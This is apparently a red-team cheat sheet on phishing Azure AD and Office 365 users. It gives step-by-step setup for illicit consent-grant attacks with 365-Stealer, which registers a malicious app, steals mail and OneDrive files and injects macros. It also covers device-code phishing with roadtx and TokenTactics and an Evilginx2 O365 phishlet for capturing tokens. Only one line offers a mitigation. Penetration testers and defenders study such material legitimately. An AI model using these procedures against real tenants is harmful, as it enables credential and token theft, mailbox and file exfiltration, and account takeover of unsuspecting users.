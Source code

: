 # Azure AD Phishing

## Illicit Consent Grant

> The attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to. 

Check if users are allowed to consent to apps: `PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`

* **Disable user consent** : Users cannot grant permissions to applications.   
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant    
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent.    
* **Custom app consent policy**   

### Register Application

1. Login to https://portal.azure.com > Azure Active Directory
2. Click on **App registrations** > **New registration**
3. Enter the Name for our application
4. Under support account types select **"Accounts in any organizational directory (Any Azure AD directory - Multitenant)"**
5. Enter the Redirect URL. This URL should be pointed towards our 365-Stealer application that we will host for hosting our phishing page. Make sure the endpoint is `https://<DOMAIN/IP>:<PORT>/login/authorized`.
6. Click **Register** and save the **Application ID**

### Configure Application

1. Click on `Certificates & secrets`
2. Click on `New client secret` then enter the **Description** and click on **Add**.
3. Save the **secret**'s value.
4. Click on API permissions > Add a permission
5. Click on Microsoft Graph > **Delegated permissions**
6. Search and select the below mentioned permissions and click on Add permission
    * Contacts.Read 
    * Mail.Read / Mail.ReadWrite
    * Mail.Send
    * Notes.Read.All
    * Mailboxsettings.ReadWrite
    * Files.ReadWrite.All 
    * User.ReadBasic.All
    * User.Read

### Setup 365-Stealer (Deprecated)

:warning: Default port for 365-Stealer phishing is 443

- Run XAMPP and start Apache
- Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://github.com/AlteredSecurity/365-Stealer.git`
- Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r requirements.txt`
- Enable sqlite3 (Xampp > Apache config > php.ini) and restart Apache
- Edit `C:/xampp/htdocs/yourvictims/index.php` if needed
    - Disable IP whitelisting `$enableIpWhiteList = false;`
- Go to 365-Stealer Management portal > Configuration (http://localhost:82/365-stealer/yourVictims)
    - **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    - **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

### Vajra

> Vajra is a UI-based tool with multiple techniques for attacking and enumerating in the target's Azure environment. It features an intuitive web-based user interface built with the Python Flask module for a better user experience. The primary focus of this tool is to have different attacking techniques all at one place with web UI interfaces. - https://github.com/TROUBLE-1/Vajra

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".

### Roadtx

* Use the authorization code flow in roadtx to get token
```ps1
roadtx codeauth -c <app-id> -r msgraph -t <tenant-id> <0.A....> -ru 'https://<phish-app>/redir' -p <app-secret>
```


## Device Code Phishing

* Using roadtool: `roadtx gettokens -u user@domain.lab --device-code`
    ```ps1
    roadtx.exe auth --device-code -c 29d9ed98-a469-4536-ade2-f981bc1d605e
    Requesting token for resource https://graph.windows.net
    To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code XXXXXXXXX to authenticate.
    ```

* Using TokenTactics to request a token for Azure Graph API using a device code
    ```ps1
    Import-Module .\TokenTactics.psd1
    Get-AzureToken -Client Graph
    ```
* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
* Enjoy your **access token** and **refresh token**


## Phishing with Evilginx2

* Run [kgretzky/evilginx2](https://github.com/kgretzky/evilginx2) with o365 phishlet
    ```powershell
    PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
    : config domain username.corp
    : config ip 10.10.10.10
    : phishlets hostname o365 login.username.corp
    : phishlets get-hosts o365
    ```
* Create a DNS entry type A for `login.login.username.corp` and `www.login.username.corp`, pointing to your machine
* Copy certificate and enable the phishing
    ```ps1
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
    PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
    : phishlets enable o365

    # get the phishing URL
    : lures create o365
    : lures get-url 0
    ```
